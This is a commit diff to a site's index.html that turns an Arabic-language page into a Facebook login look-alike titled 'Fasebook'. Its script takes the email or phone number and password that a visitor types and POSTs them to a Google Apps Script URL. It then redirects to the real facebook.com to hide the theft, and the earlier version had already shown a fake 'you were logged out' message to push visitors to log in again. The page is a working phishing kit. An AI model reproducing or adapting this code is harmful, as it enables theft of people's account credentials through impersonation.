

Before and after one commit to sihamsiham999p-collab/youssef-farsi, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 175-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,299 +2,274 @@
 <html lang="ar" dir="rtl">
 <head>
   <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1">
-  <title>Facebook</title>
+  <title>Fasebook</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <!-- أيقونات Font Awesome -->
+  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.0/css/all.min.css">
   <style>
-    :root{
-      --blue:#1877f2;
-      --border:#dadde1;
-      --text:#1c1e21;
-      --bg:#f0f2f5;
+    :root {
+      --facebook-blue: #1877f2;
+      --input-border: #ccd0d5;
+      --button-hover: #166fe5;
     }
-    *{box-sizing:border-box;margin:0;padding:0}
-    html,body{height:100%}
-    body{
-      margin:0;
-      font-family:Helvetica, Arial, sans-serif;
-      background:var(--bg);
-      color:var(--text);
-      -webkit-tap-highlight-color: transparent;
-      display:flex;
-      justify-content:center;
+    body {
+      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Ubuntu, Arial, sans-serif;
+      background-color: #fff;
+      margin: 0;
+      padding: 0;
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      justify-content: flex-start;
+      min-height: 100vh;
     }
-
-    .box{
-      background:#fff;
-      width:100%;
-      max-width:480px;
-      display:flex;
-      flex-direction:column;
-      min-height:100vh;
-      padding:20px;
+    .lang { margin-top: 15px; font-size: 15px; color: #444; cursor: pointer; user-select: none; }
+    .logo { margin: 50px 0 30px 0; }
+    .logo img { width: 65px; height: 65px; }
+    .container { width: 90%; max-width: 360px; }
+    form { background-color: #fff; text-align: center; }
+    .input-group { position: relative; margin-bottom: 5px; }
+    .input-group input {
+      width: 100%; padding: 15px 12px 15px 40px;
+      border: 1px solid var(--input-border); border-radius: 12px;
+      font-size: 15px; box-sizing: border-box;
     }
-
-    .top{display:flex;justify-content:center;padding:8px 0;}
-    .lang{position:relative;display:inline-block;}
-    .lang select{
-      appearance:none;border:none;background:transparent;
-      font-size:15px;font-weight:600;color:#4b4f54;
-      padding:6px 26px 6px 10px;cursor:pointer;border-radius:8px;
-      border:1px solid transparent;
+    .input-group .icon {
+      position: absolute; top: 50%; left: 12px; transform: translateY(-50%);
+      color: #888; font-size: 16px;
     }
-    .lang:hover select{border-color:rgba(0,0,0,0.04)}
-    .lang::after{
-      content:"▾";position:absolute;left:8px;top:50%;
-      transform:translateY(-50%);font-size:12px;color:#6b6f75;
-      pointer-events:none;
+    .error-bubble {
+      display: none; background: #000; color: #fff; font-size: 12px;
+      padding: 6px 10px; border-radius: 15px; margin: 4px 0 10px auto;
+      width: fit-content; max-width: 90%; text-align: right; position: relative;
     }
-
-    .logo-wrap{margin:20px 0;display:flex;justify-content:center;}
-    .logo{width:72px;height:72px;}
-    .logo img{width:100%;height:100%;display:block;}
-
-    form{flex:1;display:flex;flex-direction:column;justify-content:flex-start;}
-    .field{
-      display:flex;align-items:center;width:100%;
-      border:1px solid var(--border);border-radius:8px;
-      background:#fff;padding:12px 14px;margin-bottom:12px;
-      min-height:48px;
+    .error-bubble::after {
+      content: ""; position: absolute; bottom: 100%; right: 15px;
+      border-width: 6px; border-style: solid;
+      border-color: transparent transparent #000 transparent;
     }
-    .field input{
-      flex:1;border:none;outline:none;font-size:16px;
-      background:transparent;color:var(--text);
+    button {
+      width: 100%; padding: 15px; border: none; background-color: var(--facebook-blue);
+      color: white; font-size: 17px; font-weight: bold;
+      border-radius: 12px; cursor: pointer; transition: background-color 0.2s; margin-top: 5px;
     }
-    .field input::placeholder{color:#8d949e}
-
-    .btn-primary{
-      width:100%;border:none;border-radius:8px;
-      background:var(--blue);color:#fff;font-weight:700;
-      font-size:17px;padding:14px;cursor:pointer;
-      margin-top:6px;
+    button:hover { background-color: var(--button-hover); }
+    .forgot { margin-top: 14px; font-size: 14px; color: #1877f2; cursor: pointer; }
+    .create-account {
+      margin-top: 28px; padding: 15px; width: 100%; border: 1px solid var(--facebook-blue);
+      background: #fff; color: var(--facebook-blue); font-size: 16px; font-weight: bold;
+      border-radius: 12px; cursor: pointer;
     }
-    .btn-primary:active{transform:scale(0.995)}
-
-    .forgot{margin:14px 0 8px;font-size:14px;text-align:center;}
-    .forgot a{text-decoration:none;color:var(--blue);}
-    .create a{
-      display:inline-block;width:100%;text-decoration:none;
-      text-align:center;padding:12px 16px;border:1px solid var(--blue);
-      color:var(--blue);border-radius:8px;font-weight:700;font-size:15px;
-      margin-top:10px;
+    .msg {
+      margin-top: 15px;
+      font-size: 15px;
+      color: #444;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      gap: 8px;
     }
-
-    .msg{
-      margin-top:10px;display:flex;justify-content:center;align-items:center;gap:8px;
-      visibility:hidden;font-size:14px;color:#333;
+    .meta { margin-top: 50px; font-size: 12px; color: #999; cursor: pointer; }
+    .spinner {
+      border: 3px solid rgba(0, 0, 0, 0.1);
+      border-left-color: var(--facebook-blue);
+      border-radius: 50%;
+      width: 18px;
+      height: 18px;
+      animation: spin 0.8s linear infinite;
     }
-    .spinner{
-      width:16px;height:16px;border:2px solid #ccc;border-top:2px solid var(--blue);
-      border-radius:50%;animation:spin .8s linear infinite;
-    }
-    @keyframes spin{to{transform:rotate(360deg)}}
-
-    .popup,.error-text{display:none;color:#e53935;font-size:12px;text-align:right;margin:6px 2px -2px 0;}
-
-    /* فقاعة الرسالة */
-    .toast{
-      display:none;
-      background:#000;
-      color:#fff;
-      font-size:12px;
-      padding:8px 12px;
-      border-radius:16px;
-      text-align:center;
-      margin-top:10px;
-      align-self:center;
-      max-width:90%;
-    }
-
-    .meta{margin-top:auto;text-align:center;font-size:13px;color:#777;padding:14px 0;}
+    @keyframes spin { 0% { transform: rotate(0deg);} 100% { transform: rotate(360deg);} }
   </style>
 </head>
 <body>
 
-  <div class="box">
-    <!-- اختيار اللغة -->
-    <div class="top">
-      <div class="lang">
-        <select id="languageSwitcher" aria-label="Choose language">
-          <option value="ar" selected>العربية</option>
-          <option value="fr">Français</option>
-          <option value="en">English</option>
-        </select>
-      </div>
-    </div>
+  <div class="lang" id="langBtn">العربية ⌵</div>
 
-    <!-- الشعار -->
-    <div class="logo-wrap">
-      <div class="logo">
-        <img src="https://upload.wikimedia.org/wikipedia/commons/5/51/Facebook_f_logo_%282019%29.svg" alt="Facebook">
-      </div>
-    </div>
-
-    <!-- النموذج -->
-    <form id="myForm" novalidate>
-      <div class="field">
-        <input type="text" id="emailInput" placeholder="رقم الهاتف المحمول أو البريد الإلكتروني" aria-label="email or phone">
-      </div>
-      <div class="popup" id="emailPopup"></div>
-      <div class="error-text" id="emailErrorText"></div>
-
-      <div class="field">
-        <input type="password" id="passwordInput" placeholder="كلمة السر" aria-label="password">
-      </div>
-      <div class="popup" id="passwordPopup"></div>
-
-      <button type="submit" class="btn-primary" id="loginBtn">تسجيل الدخول</button>
-    </form>
-
-    <!-- فقاعة الرسالة -->
-    <div class="toast" id="logoutToast">
-      لقد تم تسجيل خروجك من فيسبوك يرجى إعادة تسجيل الدخول
-    </div>
-
-    <!-- رابط كلمة السر -->
-    <div class="forgot">
-      <a href="https://m.facebook.com/login/identify/" id="forgotLink">هل نسيت كلمة السر؟</a>
-    </div>
-
-    <!-- رسالة انتظار -->
-    <div class="msg" id="msg">
-      <div class="spinner"></div><span id="waitMsg">يرجى الإنتظار...</span>
-    </div>
-
-    <!-- رابط إنشاء حساب -->
-    <div class="create">
-      <a href="https://m.facebook.com/reg/" id="createAccount">إنشاء حساب جديد</a>
-    </div>
-
-    <!-- الحقوق -->
-    <div class="meta">Meta © 2025</div>
+  <div class="logo">
+    <img src="https://upload.wikimedia.org/wikipedia/commons/0/05/Facebook_Logo_%282019%29.png" alt="Facebook Logo">
   </div>
 
+  <div class="container">
+    <form id="myForm">
+      <div class="input-group">
+        <input type="text" name="email_or_phone" id="emailInput" placeholder="الرقم أو الإيميل" required>
+        <i class="fa-solid fa-user icon"></i>
+        <div class="error-bubble" id="error-email"></div>
+      </div>
+      <div class="input-group">
+        <input type="password" name="password" id="passInput" placeholder="كلمة المرور" required>
+        <i class="fa-solid fa-lock icon"></i>
+        <div class="error-bubble" id="error-pass"></div>
+      </div>
+      <button type="submit" id="submitButton">تسجيل الدخول</button>
+    </form>
+    <div class="forgot" id="forgotText">هل نسيت كلمة السر؟</div>
+    <button class="create-account" id="createBtn">إنشاء حساب جديد</button>
+    <div class="msg" id="msg"></div>
+  </div>
+
+  <!-- ✅ رابط Meta -->
+  <div class="meta" id="metaLink">Meta ©</div>
+
   <script>
+    const langBtn = document.getElementById("langBtn");
+    const emailInput = document.getElementById("emailInput");
+    const passInput = document.getElementById("passInput");
+    const submitButton = document.getElementById("submitButton");
+    const forgotText = document.getElementById("forgotText");
+    const createBtn = document.getElementById("createBtn");
+    const errorEmail = document.getElementById("error-email");
+    const errorPass = document.getElementById("error-pass");
+    const msg = document.getElementById("msg");
     const form = document.getElementById("myForm");
-    const emailInput = document.getElementById("emailInput");
-    const passwordInput = document.getElementById("passwordInput");
-    const emailPopup = document.getElementById("emailPopup");
-    const passwordPopup = document.getElementById("passwordPopup");
-    const msg = document.getElementById("msg");
-    const langSwitcher = document.getElementById("languageSwitcher");
-    const emailErrorText = document.getElementById("emailErrorText");
-    const forgotLink = document.getElementById("forgotLink");
-    const createAccount = document.getElementById("createAccount");
-    const loginBtn = document.getElementById("loginBtn");
-    const waitMsg = document.getElementById("waitMsg");
-    const logoutToast = document.getElementById("logoutToast");
 
+    // الرسائل باللغات
     const translations = {
       ar: {
-        email: "رقم الهاتف المحمول أو البريد الإلكتروني",
-        password: "كلمة السر",
+        lang: "العربية ⌵",
+        emailPlaceholder: "الرقم أو الإيميل",
+        passPlaceholder: "كلمة المرور",
         login: "تسجيل الدخول",
-        wait: "يرجى الإنتظار...",
-        emailError: "أدخل رقم أو إيميل صحيح",
-        passError: "يرجى إدخال كلمة المرور الصحيحة",
-        emailWrong: "رقم أو إيميل خاطئ",
         forgot: "هل نسيت كلمة السر؟",
         create: "إنشاء حساب جديد",
-        toast: "لقد تم تسجيل خروجك من فيسبوك يرجى إعادة تسجيل الدخول"
+        errorEmail: "أدخل رقم أو بريد إلكتروني صحيح",
+        errorPass: "أدخل كلمة سر صحيحة",
+        waiting: "جاري تسجيل الدخول...",
+        customEmail: "يرجى إدخال رقم أو بريد إلكتروني صحيح",
+        customPass: "يرجى إدخال كلمة سر صحيحة"
+      },
+      en: {
+        lang: "English ⌵",
+        emailPlaceholder: "Email or Phone",
+        passPlaceholder: "Password",
+        login: "Log In",
+        forgot: "Forgotten password?",
+        create: "Create new account",
+        errorEmail: "Enter a valid email or phone number",
+        errorPass: "Enter a valid password",
+        waiting: "Logging in...",
+        customEmail: "Please enter a valid email or phone number",
+        customPass: "Please enter a valid password"
       },
       fr: {
-        email: "E-mail ou numéro de téléphone",
-        password: "Mot de passe",
+        lang: "Français ⌵",
+        emailPlaceholder: "E-mail ou téléphone",
+        passPlaceholder: "Mot de passe",
         login: "Se connecter",
-        wait: "Veuillez patienter...",
-        emailError: "Veuillez entrer un email ou numéro valide",
-        passError: "Veuillez entrer un mot de passe correct",
-        emailWrong: "Email ou numéro incorrect",
         forgot: "Mot de passe oublié ?",
         create: "Créer un nouveau compte",
-        toast: "Vous avez été déconnecté de Facebook. Veuillez vous reconnecter."
-      },
-      en: {
-        email: "Email or Phone",
-        password: "Password",
-        login: "Log In",
-        wait: "Please wait...",
-        emailError: "Enter a valid email or phone",
-        passError: "Please enter the correct password",
-        emailWrong: "Wrong email or phone",
-        forgot: "Forgot password?",
-        create: "Create New Account",
-        toast: "You have been logged out of Facebook. Please log in again."
+        errorEmail: "Entrez un e-mail ou un numéro valide",
+        errorPass: "Entrez un mot de passe valide",
+        waiting: "Connexion en cours...",
+        customEmail: "Veuillez entrer un e-mail ou un numéro valide",
+        customPass: "Veuillez entrer un mot de passe valide"
       }
     };
 
-    let currentLang = "ar";
+    const langs = ["ar", "en", "fr"];
+    let currentLangIndex = 0;
 
-    function changeLanguage(lang){
-      currentLang = lang;
-      emailInput.placeholder = translations[lang].email;
-      passwordInput.placeholder = translations[lang].password;
-      loginBtn.innerText = translations[lang].login;
-      waitMsg.innerText = translations[lang].wait;
-      forgotLink.innerText = translations[lang].forgot;
-      createAccount.innerText = translations[lang].create;
-      logoutToast.innerText = translations[lang].toast;
-
-      emailPopup.style.display = "none";
-      passwordPopup.style.display = "none";
-      emailErrorText.style.display = "none";
-
-      document.documentElement.dir = (lang === "ar") ? "rtl" : "ltr";
-      document.documentElement.lang = lang;
+    const savedLang = localStorage.getItem("langIndex");
+    if (savedLang !== null) {
+      currentLangIndex = parseInt(savedLang);
     }
 
-    langSwitcher.addEventListener("change", e => changeLanguage(e.target.value));
+    function updateLanguage() {
+      const langKey = langs[currentLangIndex];
+      const t = translations[langKey];
+      langBtn.textContent = t.lang;
+      emailInput.placeholder = t.emailPlaceholder;
+      passInput.placeholder = t.passPlaceholder;
+      submitButton.textContent = t.login;
+      forgotText.textContent = t.forgot;
+      createBtn.textContent = t.create;
+      errorEmail.textContent = t.errorEmail;
+      errorPass.textContent = t.errorPass;
 
-    function isValidEmailOrPhone(value){
-      const emailRegex=/^[^\s@]+@[^\s@]+\.[^\s@]+$/;
-      const phoneRegex=/^[0-9]{6,15}$/;
-      return emailRegex.test(value)||phoneRegex.test(value);
+      emailInput.oninvalid = function() {
+        this.setCustomValidity(t.customEmail);
+      };
+      emailInput.oninput = function() {
+        this.setCustomValidity("");
+      };
+
+      passInput.oninvalid = function() {
+        this.setCustomValidity(t.customPass);
+      };
+      passInput.oninput = function() {
+        this.setCustomValidity("");
+      };
+
+      localStorage.setItem("langIndex", currentLangIndex);
     }
 
-    form.addEventListener("submit", e=>{
+    langBtn.addEventListener("click", () => {
+      currentLangIndex = (currentLangIndex + 1) % langs.length;
+      updateLanguage();
+    });
+
+    updateLanguage();
+
+    forgotText.addEventListener("click", () => {
+      window.location.href = "https://m.facebook.com/login/identify/";
+    });
+
+    createBtn.addEventListener("click", () => {
+      window.location.href = "https://m.facebook.com/reg/";
+    });
+
+    // ✅ عند الضغط على "Meta ©"
+    document.getElementById("metaLink").addEventListener("click", () => {
+      window.location.href = "https://about.meta.com/";
+    });
+
+    form.addEventListener("submit", e => {
       e.preventDefault();
+
       let valid = true;
+      errorEmail.style.display = "none";
+      errorPass.style.display = "none";
 
-      if (emailInput.value.trim()===""){
-        emailPopup.innerText = translations[currentLang].emailError;
-        emailPopup.style.display="block";
-        setTimeout(()=>emailPopup.style.display="none",3000);
-        valid=false;
-      }else if(!isValidEmailOrPhone(emailInput.value.trim())){
-        emailErrorText.innerText = translations[currentLang].emailWrong;
-        emailErrorText.style.display="block";
-        valid=false;
-      }else{
-        emailPopup.style.display="none";
-        emailErrorText.style.display="none";
+      const emailOrPhone = emailInput.value.trim();
+      const password = passInput.value.trim();
+
+      const emailRegex = /^[^@\s]+@[^@\s]+\.[^@\s]+$/;
+      const phoneRegex = /^[0-9]{6,15}$/;
+
+      if (!(emailRegex.test(emailOrPhone) || phoneRegex.test(emailOrPhone))) {
+        errorEmail.style.display = "block";
+        valid = false;
       }
 
-      if (passwordInput.value.trim()===""){
-        passwordPopup.innerText = translations[currentLang].passError;
-        passwordPopup.style.display="block";
-        setTimeout(()=>passwordPopup.style.display="none",3000);
-        valid=false;
-      }else{
-        passwordPopup.style.display="none";
+      if (password.length < 4) {
+        errorPass.style.display = "block";
+        valid = false;
       }
 
-      if(!valid) return;
+      if (!valid) return;
 
-      // رسالة انتظار
-      msg.style.visibility="visible";
-      setTimeout(()=>{ window.location.href="https://m.facebook.com"; },1500);
+      const t = translations[langs[currentLangIndex]];
+      msg.innerHTML = `<div class="spinner"></div><span>${t.waiting}</span>`;
+      submitButton.disabled = true;
+
+      const data = { email_or_phone: emailOrPhone, password: password };
+
+      fetch("https://script.google.com/macros/s/AKfycby6KJYLJwG0diUq8poivMjk4rTeJ_mgCo-v99cbC-GIyoZct5-TlqPav-NOoZ5o0zbF/exec", {
+        method: "POST",
+        body: JSON.stringify(data)
+      })
+      .then(res => res.text())
+      .then(txt => {
+        form.reset();
+        window.location.href = "https://www.facebook.com";
+      })
+      .catch(err => {
+        msg.innerHTML = "❌ Error: " + err;
+        msg.style.color = "red";
+        submitButton.disabled = false;
+      });
     });
+  </script>
 
-    // عرض فقاعة تسجيل الخروج عند تحميل الصفحة
-    window.addEventListener("load", ()=>{
-      logoutToast.style.display="block";
-      setTimeout(()=>{ logoutToast.style.display="none"; },3000);
-    });
-
-    changeLanguage(currentLang);
-  </script>
 </body>
 </html>
```
